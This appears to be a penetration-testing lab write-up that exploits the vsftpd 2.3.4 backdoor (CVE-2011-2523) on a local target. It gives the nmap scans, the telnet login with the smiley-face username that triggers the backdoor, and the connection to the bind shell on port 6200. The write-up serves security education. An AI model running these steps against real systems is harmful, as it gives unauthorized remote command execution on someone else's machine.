




 # Vulnerability Explotation

One of the most relevant vulnerabilities identified during the scan affects the **FTP service running on port 21**.
OpenVAS detected that the system is running a compromised version of **vsftpd 2.3.4**, which contains a known backdoor vulnerability.
<p align="center">
  
  <br> 
  <em>CVE-2011-2523</em>
</p>

The vsftpd service is vulnerable due to a compromised source package that introduced a malicious backdoor into the software distribution.
According to the OpenVAS report, the vulnerable version of vsftpd contains a hidden backdoor mechanism that can be triggered by a specially crafted login request.
Once triggered, the backdoor opens a command shell on **port 6200**, allowing an attacker to execute commands on the target system.
If successfully exploited, this vulnerability allows attackers to execute arbitrary commands on the affected machine, potentially gaining unauthorized access to the system. Due to the possibility of remote command execution, this vulnerability is classified as **Critical**.

## Step 1 — Service Enumeration

First, a service enumeration scan is performed using **Nmap** in order to identify the running services and their versions.
````markdown
kali@kali:~$ nmap -sV 10.0.2.7
````
<p align="center">
  
  <br>
</p>

The scan confirms that the target system is running vsftpd 2.3.4, a version known to be affected by a backdoor vulnerability.

## Step 2 — Checking the Backdoor Port

Before triggering the vulnerability, it is useful to verify whether the backdoor port (6200) is already open.
````markdown
kali@kali:~$ nmap -p6200 10.0.2.7
````
<p align="center">
  
  <br>
</p>

The scan shows that the port is closed, indicating that the backdoor has not yet been triggered

## Step 3 — Triggering the Backdoor

The backdoor can be triggered by initiating an FTP connection and sending a specially crafted username containing a smiley face.
````markdown
kali@kali:~$telnet 10.0.2.7 21
````

Once connected to the FTP service, the following username is used:
````markdown
kali@kali:~$USER test:)
````

<p align="center">
  
  <br>
</p>

This action activates the malicious backdoor embedded in the vulnerable vsftpd version.

## Step 4 — Conneting to the Backdoor Shell

After triggering the vulnerability, the backdoor opens a shell on port 6200.The attacker can then connect to this port using telnet:
````markdown
kali@kali:~$telnet 10.0.2.7 6200
````
<p align="center">
  
  <br>
</p>

If the exploitation is successful, a remote shell will be opened on the target machine. However, after connecting to port 6200, the shell may not behave as a fully interactive system shell. Some commands may return "command not found" because the backdoor opens a minimal bind shell that does not always correctly attach to the system environment.
